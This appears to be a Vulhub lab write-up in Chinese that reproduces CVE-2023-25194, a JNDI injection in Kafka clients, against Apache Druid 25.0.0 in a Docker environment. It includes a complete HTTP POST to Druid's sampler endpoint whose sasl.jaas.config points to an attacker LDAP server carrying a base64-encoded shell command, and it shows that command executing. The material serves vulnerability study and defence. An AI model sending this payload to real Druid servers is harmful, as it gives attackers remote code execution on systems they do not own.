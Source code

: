 # Apache Kafka Clients JNDI注入漏洞 (CVE-2023-25194)

Apache Kafka是一个开源分布式消息队列，Kafka clients是相对应的Java客户端。

在版本3.3.2及以前，Apache Kafka clients中存在一处JNDI注入漏洞。如果攻击者在连接的时候可以控制属性`sasl.jaas.config`的值为`com.sun.security.auth.module.JndiLoginModule`，则可以发起JNDI连接，进而导致JNDI注入漏洞，执行任意命令。

由于这个漏洞是存在于Java库kafka-clients中，所以我们需要在真实环境下找到使用了这个库的软件，且用户可以控制连接参数。

这个软件就是Apache Druid，其使用kafka-clients来连接Kafka作为其数据源之一。这篇指南就来演示如何利用CVE-2023-25194来攻击Apache Druid。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## 漏洞环境

执行如下命令启动一个Apache Druid 25.0.0服务，其内部使用的kafka-clients版本是3.3.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8888`即可查看到Apache Druid主页。

## 漏洞复现

首先，使用[JNDIExploit](https://github.com/vulhub/JNDIExploit)启动一个恶意的JNDI服务器：

![](1.png)

可见，这个工具给出了很多利用方法，我们使用`ldap://[eyi-jndi-server]:1389/Basic/Command/Base64/[base64_encoded_cmd]`，将命令`id > /tmp/success`编码后放在URL中。

将这个恶意LDAP URL放在下面这个请求中，并发送：

```http request
POST http://web:8888/druid/indexer/v1/sampler?for=connect HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://eyi-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

进入容器后可见`id > /tmp/success`已经成功执行：

![](3.png)
